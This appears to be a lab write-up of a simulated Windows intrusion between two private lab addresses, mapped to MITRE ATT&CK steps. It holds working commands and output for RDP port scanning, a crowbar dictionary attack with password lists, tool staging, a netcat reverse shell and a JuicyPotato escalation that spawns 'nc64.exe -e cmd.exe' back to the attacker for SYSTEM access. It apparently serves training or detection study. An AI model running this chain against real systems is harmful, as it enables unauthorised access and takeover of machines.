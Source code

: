 # CASE1

**Attacker :** 192.168.106.141
**Victim :** 192.168.106.142



## STEP1. Initial Access : External Remote Services(T1133)
Using masscan for RDP port scanning and crowbar for Dictionary Attacks to attempt RDP logon.


> Attack Tools : masscan, crowbar
>- masscan - port scanner : https://github.com/robertdavidgraham/masscan
>- Crowbar - Brute forcing tool : https://github.com/galkan/crowbar
>- Support : OpenVPN, Remote Desktop Protocol (RDP) with NLA support, SSH private key authentication, VNC key authentication

### Attacker

![image](https://github.com/user-attachments/assets/f94a5ef2-97ab-4edd-8a95-6144de8257d4)

[RDP port scan with masscan tool]


```shell

# masscan 192.168.106.142 -p1025-65535 --rate-1000000

┌──(root㉿kali)-[/home/kali/Attack_Tool/CASE1]
└─# masscan 192.168.106.142 -p30000-30040 --rate-1000000

rate-1000000: empty parameter
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2025-01-10 21:32:54 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [41 ports/host]
Discovered open port 30039/tcp on 192.168.106.142

```

![image](https://github.com/user-attachments/assets/d5e815a5-20b5-4d2b-8fbb-6638e739ce00)

[RDP logon Dictionary Attack with crowbar tool]

```shell
┌──(root㉿kali)-[/home/kali/Attack_Tool/CASE1]
└─# ls
bunny.exe  crowbar  mimikatz.exe  nc64.exe  passlist.txt  userlist.txt
                                                                                                          
┌──(root㉿kali)-[/home/kali/Attack_Tool/CASE1]
└─# cat userlist.txt 
test
iglootest
testuser
user
admin
administrator
manager
boss
main                                                                                                      
┌──(root㉿kali)-[/home/kali/Attack_Tool/CASE1]
└─# cat passlist.txt 
qwer1234!
123456
qwer1234
administrator
admin
test
manager
test1234
test1234!
12345678
Administrator                                                                                             
┌──(root㉿kali)-[/home/kali/Attack_Tool/CASE1]
└─# cd crowbar       
┌──(root㉿kali)-[/home/kali/Attack_Tool/CASE1/crowbar]
└─# ./crowbar.py -b rdp -s 192.168.106.142/32 -U ../userlist.txt -C ../passlist.txt -p 30039
2025-01-10 17:15:30 START
2025-01-10 17:15:30 Crowbar v0.4.3-dev
2025-01-10 17:15:30 Trying 192.168.106.142:30039
2025-01-10 17:15:36 RDP-SUCCESS : 192.168.106.142:30039 - testuser:qwer1234
2025-01-10 17:15:45 STOP

```

Attack Tools : xfreerdp
- xfreerdp: https://linux.die.net/man/1/xfreerdp
An X11 Remote Desktop Protocol (RDP) client that is part of the FreeRDP project, enabling RDP access in Linux environments.

![image](https://github.com/user-attachments/assets/238f67a0-ac40-46ec-a21f-eddec0fef27f)

[Connect RDP to xfreerdp]

```shell

```

![image](https://github.com/user-attachments/assets/a3174dd7-ab96-48c8-a5a7-16bf96dec33e)
[The victim's credentials don't match ]


## STEP2. Execution : Command and Scripting Interpreter(T1059)
| Download netcat and JuicyPotato Attack Tool on the attacker’s server, establish reverse shell through netcat to remotely execute cmd commands.


### Attacker
```shell
# cd /home/kali/Attacker_Tool/CASE1
# python3 -m http.server 8080

```
### Victim
![image](https://github.com/user-attachments/assets/2855a712-9824-4c9b-aac6-e0417984f23a)
[ Download netcat and JuicyPotato(bunny.exe) from Attacker server]

![image](https://github.com/user-attachments/assets/12db89a9-05b9-451b-bece-0faf15d44333)
[Detection Windows Defender Security Center]

### Attacker
![image](https://github.com/user-attachments/assets/951621b2-94ba-4249-acbd-77b61b14c48f)
[Connect reverse shell to 4445 port using netcat(nc64.exe)]



![image](https://github.com/user-attachments/assets/ffdb0774-7d1a-4878-9dcd-d420fe71727b)
[ Verify testuser account’s permissions and run cmd with Administrator privilege Enter testuser password stolen by Dictionary Attack ]


```shell
┌──(root㉿kali)-[/home/kali]
└─# nc -lvp 4445
listening on [any] 4445 ...
192.168.106.137: inverse host lookup failed: Unknown host
connect to [192.168.106.138] from (UNKNOWN) [192.168.106.137] 50863
Microsoft Windows [Version 10.0.17134.1]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\testuser>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled

C:\Users\testuser>runas /user:Administrator "cmd"
runas /user:Administrator "cmd"
Enter the password for Administrator: 

C:\Users\testuser>powershell
powershell
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\testuser> Start-Process cmd -Verb RunAs
Start-Process cmd -Verb RunAs
PS C:\Users\testuser> 

```

Administrator Permission Console(cmd)

![image](https://github.com/user-attachments/assets/ebe13ef1-0115-49c3-876e-23cbc4af3d4e)
[ Check permission 'SeImpersonatePrivilege' for privilege escalation vulnerabilities ]



```shell
┌──(root㉿kali)-[/home/kali]
└─# nc -lvp 4445
listening on [any] 4445 ...
192.168.106.137: inverse host lookup failed: Unknown host
connect to [192.168.106.138] from (UNKNOWN) [192.168.106.137] 50877
Microsoft Windows [Version 10.0.17134.1]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\testuser>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled

C:\Users\testuser>![image](https://github.com/user-attachments/assets/4ca929bf-9c94-4201-9950-c4f92366fc4d)

```


![image](https://github.com/user-attachments/assets/44e9409f-e927-4d60-8209-a8c826e4d712)


## STEP3. Privilege Escalation : Abuse Elevation Control Mechanism(T1548)
| Escalate to SYSTEM privilege using the privilege escalation tool JuicyPotato.


Attack Tools : JuicyPotato(bunny.exe)

![image](https://github.com/user-attachments/assets/0460906c-9835-4cab-9f32-7ab4386faee0)
[ Using JuicyPotato(bunny.exe) to steal SYSTEM privilege ]


```shell
c:\Users\testuser>bunny.exe -l 4445 -t * -p C:\Windows\System32\cmd.exe -a "/c C:\Users\testuser\nc64.exe -e cmd.exe 192.168.106.138 9999"
bunny.exe -l 4445 -t * -p C:\Windows\System32\cmd.exe -a "/c C:\Users\testuser\nc64.exe -e cmd.exe 192.168.106.138 9999"
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 4445
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

c:\Users\testuser>


```



